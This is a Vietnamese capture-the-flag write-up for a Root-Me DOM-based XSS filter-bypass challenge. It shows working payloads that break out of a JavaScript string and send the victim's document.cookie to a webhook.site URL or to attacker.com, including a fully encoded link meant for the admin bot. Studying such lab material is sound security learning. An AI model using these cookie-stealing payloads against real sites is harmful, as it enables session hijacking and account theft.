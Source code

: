 ## XSS DOM Based - Filters Bypass

Challenge: https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Filters-Bypass

![alt text](image.png)

Ở bài này ta sẽ cần inject vào phần `Submit` number và sau đó gửi url bị inject đó cho bên admin qua `Contact`

Thử với 1 input đúng:\
![alt text](image-1.png)\
![alt text](image-2.png)

Thử thoát với dấu `'` và thực hiện JS bằng `-`: `' -alert(1)-; '`\
![alt text](image-3.png)

Kết quả:\
![alt text](image-4.png)

Ở đây ta xác nhận đã thực hiện được JS ta tiếp tục triển khai gửi gói tin ra ngoài:

Thử với `fetch`, `location` và xóa `https:` nhưng đều chưa thành công đều nhận về phản hồi:\
![alt text](image-5.png)

Cuối cùng với payload này ta thành công với việc gửi gói tin:
`' -(document.location.href='//webhook.site/25afdc63-5145-4c3d-b6e3-81071ef3d830')-; '`

![alt text](image-6.png)

Bây giờ lấy cookie: `' -(document.location.href='//webhook.site/25afdc63-5145-4c3d-b6e3-81071ef3d830?c='.concat(document.cookie))-; '`

![alt text](image-7.png)

Gửi cho admin bên phần `Contact` và đợi admin truy cập url:
`http://challenge01.root-me.org/web-client/ch33/?number=%27%2d(document.location.href=%27//webhook.site/25afdc63-5145-4c3d-b6e3-81071ef3d830?c=%27.concat(document.cookie))%2d%27`

![alt text](image-8.png)


Ngoài ra còn có 1 số payload mình tìm hiểu được:

- `http://challenge01.root-me.org/web-client/ch33/?number=%27%0adocument.location.href=%27//webhook.site/a1d5b0ad-391f-4343-92fa-76797844588b?c=%27.concat(document.cookie)%0a//`

- ``aaaaa'-fetch(`//attacker.com/?q=${document.cookie}`)//``

- Dùng Web Socket
















